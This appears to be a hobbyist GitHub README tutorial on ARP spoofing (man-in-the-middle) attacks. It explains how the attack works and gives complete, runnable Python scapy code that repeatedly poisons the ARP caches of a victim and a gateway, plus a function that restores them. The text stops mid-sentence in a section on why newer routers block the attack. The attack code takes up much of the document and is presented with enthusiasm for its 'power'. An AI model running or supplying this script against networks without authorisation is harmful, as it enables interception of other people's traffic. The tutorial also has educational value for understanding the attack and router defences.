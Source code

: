 # How to check if your router tries to protect you

**ARP Spoofing** also known as Man in the Middle is simple but powerful attack. It exploits the vulnerabilites of ARP (Address Resolution Protocol)

-------------------------------------------------------------------------------

## How ARP Spoofing Works

Normally these are how the computers in a network communicate (this works for ethernet switches).  

![Load](https://documentation.meraki.com/@api/deki/files/5903/Screen_Shot_2017-12-03_at_8.09.11_PM.png?revision=1&size=bestfit&width=622&height=242)

The victim (who is not the victim yet) sends an ARP broadcast to ask what are the MAC addresses of the machines with the given IP. For example, the ARP request asks who 10.10.10.20 is, the router has that IP and the router sends its MAC address to the machine that asked. The machine will then update its table so whenever it needs to send something to 10.10.10.20, it will send it to the MAC address that was given. You may now see what the vulnerability is. I could send a message to the victim saying that I'm 10.10.10.20 but give it **MY** MAC address. Now when it needs to send something to 10.10.10.20, it will send the requests to my MAC address. *The **power** feels great!*

![Get rekt](https://miro.medium.com/max/4800/1*Nz1e4AfW6HGcgXde_eIwUg.jpeg)

-------------------------------------------------------------------------------

## How the Code Works

Remember, we need to tell the victim that we're the router, so we'll create a packet doing just that. I should also say I used the library scapy.
```python
def spoof(targetip, targetmac, sourceip):
    spoofed = ARP(op=2 , pdst=targetip, psrc=sourceip, hwdst= targetmac)
    send(spoofed, verbose= False)
```
What this does is create a packet with packet destination (pdst) of the target, this tells them this packet was especially made for them, packet source (psrc) of the router so it looks like it's coming from them, and hwdst (hardware destination) is to send it to the right person. This packet will have a hwsrc (hardware source) of our IP so they associate our MAC address with the router's IP. 
```python
def restorearp(targetip, targetmac, sourceip, sourcemac):
    packet = ARP(op=2 , hwsrc=sourcemac , psrc= sourceip, hwdst= targetmac , pdst= targetip)
    send(packet, verbose=False)
    print("ARP Table restored to normal for", targetip)
```
The code above is to reverse previous actions, telling the victim that the IP of router should be associated with the MAC of the router. You literally have to reverse it, showing the **power** of the attack. 
```python
def main():
    targetip = "192.168.0.24"
    gatewayip = "192.168.0.1"
    targetmac = "a4:5e:60:b9:d6:ab"
    gatewaymac = "9c:c9:eb:c9:1a:1a"

    try:
        print("Sending spoofed ARP responses")
        #restorearp(gatewayip, gatewaymac, targetip, targetmac)
        #restorearp(targetip, targetmac, gatewayip, gatewaymac)
        while True:
            spoof(targetip, targetmac, gatewayip)
            spoof(gatewayip, gatewaymac, targetip)
    except KeyboardInterrupt:
        print("ARP spoofing stopped")
        restorearp(gatewayip, gatewaymac, targetip, targetmac)
        restorearp(targetip, targetmac, gatewayip, gatewaymac)
        quit()

if __name__=="__main__":
    main()
``` 
Here I specify the IP addresses and MAC addresses. You could automate this part, but if you have something like nmap or a network scanner (you can code this as well) you can find the addresses and manual code them in. Then we send the packets, we have to do this repeatedly so the victim thinks we're the router. If you want to turn it off, you can use Ctrl+C and it'll revert it. 

-------------------------------------------------------------------------------

## Why it may not work for you

I wasn't initially planning on making this section, but we got a new router and the spoofer doesn't wor anymore. This is actually a good thing, but not for this project. I started doing research to figure out what happened,

![Literally Me](https://pbs.twimg.com/media/EIzT11bU8AAgvlM.jpg)

I was enlightened with the knowledge of this random stackoverflow dude

>The spoof should work almost immediately if it is working properly. New devices will see the gratuitous arp from the attacker and automatically update their >cache. A victim will not detect duplicate IP, they should just update the mapping. The problem is likely at the router.
>
>Arpspoof works through a switch because the switch has no way of knowing which port the legitimate IP address/MAC mapping is, so without any form of port >security/DHCP snooping/Dynamic arp inspection, it has to trust that a device is who it says it is when it claims "192.168.1.1 is at aa:bb:cc:dd:ee:aa" in its >arp reply/gratuitous arp.
>
>                                                                                                                      ~Some dude on Stack Overflow

What this basically says is...
